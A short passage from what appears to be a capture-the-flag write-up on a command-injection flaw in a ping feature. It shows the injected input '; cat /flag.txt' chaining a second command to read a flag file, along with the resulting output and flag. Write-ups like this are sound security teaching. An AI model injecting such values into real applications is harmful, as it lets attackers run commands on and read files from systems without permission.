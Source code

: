 We can see that we can successfully chain commands, and list the current directory. Now we just have to list the contents of _/flag.txt_ file to get the flag, and we can do that with `; cat /flag.txt`

```bash
PING RESULTS
flag{4365558d98bb2d2bdbecc4e01f8e7bf5}
flag{4365558d98bb2d2bdbecc4e01f8e7bf5}
```
